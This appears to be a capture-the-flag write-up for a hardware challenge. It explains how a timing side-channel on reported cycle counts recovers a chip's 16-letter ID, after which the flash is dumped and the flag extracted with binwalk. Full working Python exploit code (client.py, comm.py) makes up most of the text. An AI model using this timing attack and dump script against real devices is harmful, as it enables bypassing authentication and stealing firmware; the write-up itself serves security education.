 ```yaml
---
title: FCSIGN
solves: 3
points: 500
created: 2025-04-19T21:18
updated: 2025-04-20T19:59
---
```


After reading the datasheet I can tell that the most important part of this challenge is the 16 byte password.

> An ID can be used to secure your processor. This is a 16 byte ID consisting of CAPITAL alphabetical characters 'A' through 'Z'. If a user attempts to bruteforce this password, the chip will be erased, preserving the contents.

```python
async def receive_data(socket):
    response = await socket.recv()
    message = json.loads(response)
    return base64.b64decode(message['data']), message['cycles']
```

Since each response includes the number of cycles used, I immediately tried using it to guess the password character by character. And it worked.

Most string comparisons go left to right, and return early on error. So if there are more correct characters on the left, it will take the board longer to return.

```
...
[/] R : delta = 15500 cycles
[/] Q : delta = 15500 cycles
[/] P : delta = 16000 cycles
[/] O : delta = 15250 cycles
[/] N : delta = 15250 cycles
[/] M : delta = 15250 cycles
...
[*] max char: P (16000 cycles)
```

Afterwards I simply follow the datasheet and request `0x400` byte chunks until the board does not respond with one.

```
...
[+] Read 0x400 bytes from 0xed400
[+] Read 0x400 bytes from 0xed800
[-] READ failed at 0xedc00: INVALID_ADDRESS
Stopped at 0xedc00 with status INVALID_ADDRESS
Total bytes read: 962560
[*] Dump saved to dump.bin
```

## extraction
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1745115389/2025/04/bb1d32ca1c01d507bf08bcfd9f51f776.png)

Couldn't tell what the file really is, but I see PNG headers and a bunch of plain text. So I did a `binwalk -Me` on it.

```sh
binwalk -Me dump.bin
```

And one of the image frames contained the flag.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1745114781/2025/04/d1441cc929061d4350d9d8e7c9a8f365.png)

Not sure why this challenge has so little solves, just follow the instructions.
## solve

```flag
UMASS{un(_b3_w1l1n_w1th_s1d3ch4nn3l1n_XT60WWSC}
```

```python [client.py]
import asyncio
import json
import base64
import string
import websockets
from comm import encode_packet, decode_packet, COMMANDS, RESPONSES

URL = 'ws://hardware.ctf.umasscybersec.org:10004'


async def send_raw(ws, data: bytes):
    env = json.dumps({'data': base64.b64encode(data).decode()})
    # print(f">>> {data.hex()}")
    await ws.send(env)


async def recv_pkt(ws):
    msg = await ws.recv()
    obj = json.loads(msg)
    raw = base64.b64decode(obj['data'])
    # print(f"<<< {raw.hex()}")
    info = decode_packet(raw)
    return info, obj.get('cycles')


async def dump_until_fail(ws):
    data = bytearray()
    addr = 0
    while True:
        pkt = encode_packet(COMMANDS.READ, addr.to_bytes(4, 'little'))
        await send_raw(ws, pkt)
        resp, _ = await recv_pkt(ws)
        status = resp['status']
        if status != RESPONSES.ACK:
            print(f"[-] READ failed at {hex(addr)}: {status.name}")
            return data, addr, status
        data.extend(resp['args'])
        print(f"[+] Read 0x400 bytes from {hex(addr)}")
        addr += 0x400


async def main():
    ws = await websockets.connect(URL)
    await send_raw(ws, b'\x55\x00\xC1\x00')
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    await send_raw(ws, encode_packet(COMMANDS.COMM_INIT))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    freq = (8_000_000).to_bytes(4, 'little')
    await send_raw(ws, encode_packet(COMMANDS.SET_CHIP_FREQ, freq))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    known = b''
    while len(known) < 16:
        last_c = _
        count = {}
        for l in reversed(string.ascii_uppercase):
            pwd = known+l.encode() + b'A'*(15-len(known))
            await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, pwd))
            resp, _ = await recv_pkt(ws)
            print(f"[/] {l} : delta = {_-last_c} cycles")
            count[l] = _-last_c
            last_c = _
        max_char = max(count, key=count.get)
        print(f"[*] max char: {max_char} ({count[max_char]} cycles)")
        known += max_char.encode()
        print(f"[*] known: {known.decode()}")
    await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, known))
    resp, _ = await recv_pkt(ws)
    print(f"[*] ID_AUTHENTICATION: {resp['status']}")

    full_dump, fail_addr, fail_status = await dump_until_fail(ws)
    print(f"Stopped at {hex(fail_addr)} with status {fail_status.name}")
    print(f"Total bytes read: {len(full_dump)}")

    with open('dump.bin', 'wb') as f:
        f.write(full_dump)
    print(f"[*] Dump saved to dump.bin")

if __name__ == '__main__':
    asyncio.run(main())
```

```python [comm.py]
import struct
from enum import IntEnum


class COMMANDS(IntEnum):
    UNKNOWN = 0x00
    COMM_INIT = 0x03
    SET_CHIP_FREQ = 0x05
    ID_AUTHENTICATION = 0x34
    READ = 0x69


class RESPONSES(IntEnum):
    ACK = 0x50
    INVALID_COMMAND = 0x80
    FLOW_ERROR = 0x81
    UNAUTHORIZED = 0x82
    INVALID_FREQUENCY = 0x83
    INVALID_ID_LEN = 0x84
    INVALID_ADDRESS = 0x87
    INVALID_ADDRESS_ALIGNMENT = 0x88


def encode_packet(cmd: COMMANDS, args: bytes = b'') -> bytes:
    """
    Build a UK47XD packet for sending.

    Packet layout:
      HEAD  (1B)   = 0x33
      LEN   (2B)   = size of DATA (CMD + ARGS)
      DATA (N bytes) = CMD (1B) + ARGS
    """
    head = 0x33
    length = 1 + len(args)  # 1 byte for CMD + len(args)
    return struct.pack('<B H B', head, length, cmd) + args


def decode_packet(pkt: bytes) -> dict:
    """
    Parse a UK47XD packet into its fields.

    Expects at least 5 bytes: HEAD (1) + LEN (2) + CMD (1) + STATUS (1).
    Any remaining bytes are ARGS.
    """
    if len(pkt) < 5:
        raise ValueError("Packet too short to be valid")

    head, length = struct.unpack_from('<B H', pkt, 0)
    if head != 0x33:
        raise ValueError(f"Invalid HEAD byte: 0x{head:02X}")

    expected_len = 3 + length  # 1B HEAD + 2B LEN + length
    if len(pkt) != expected_len:
        raise ValueError(f"Length mismatch: expected {expected_len} bytes, got {len(pkt)}")

    cmd = COMMANDS(pkt[3])
    status = RESPONSES(pkt[4])
    args = pkt[5:]

    return {
        'head':   head,
        'length': length,
        'cmd':    cmd,
        'status': status,
        'args':   args,
    }
```
